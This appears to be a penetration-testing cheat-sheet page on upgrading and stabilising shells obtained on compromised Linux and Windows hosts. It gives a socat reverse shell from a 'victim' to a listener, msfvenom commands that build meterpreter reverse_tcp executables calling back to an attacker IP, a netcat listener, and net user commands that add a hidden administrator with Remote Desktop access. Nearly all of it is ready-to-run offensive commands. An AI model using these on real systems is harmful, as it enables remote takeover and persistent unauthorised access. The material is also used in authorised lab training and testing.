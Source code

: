 Most [netcat](../Tools/netcat.md)-like tools provide a non-interactive shell, which means that programs that require user input such as many file transfer programs or `su` and `sudo` tend to work poorly, if at all. Non-interactive shells also lack useful features like tab completion and job control. It is always a good idea upgrade any non-interactive shell to an interactive one.

# Linux

## Python PTY

```python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## TERM and SHELL exports

```bash
SHELL=/bin/bash script -q /dev/null

^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```

## socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Fix rows and columns

From a clean terminal:

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ stty -a
speed 38400 baud; rows 60; columns 235; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

From the "malformed" terminal:

```bash
www-data@luigi:/var/www$ stty rows 60 columns 235
stty rows 60 columns 235
```

---

# Windows:

## Rlwrap [^1]

[^1]: https://github.com/hanslub42/rlwrap](https://github.com/hanslub42/rlwrap

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ rlwrap nc -nlvp 443
```

## meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
```

## RDP

```powershell
net user maoutis Qwerty123! /add
net localgroup Administrators maoutis /add
net localgroup "Remote Desktop Users" maoutis /ADD
```
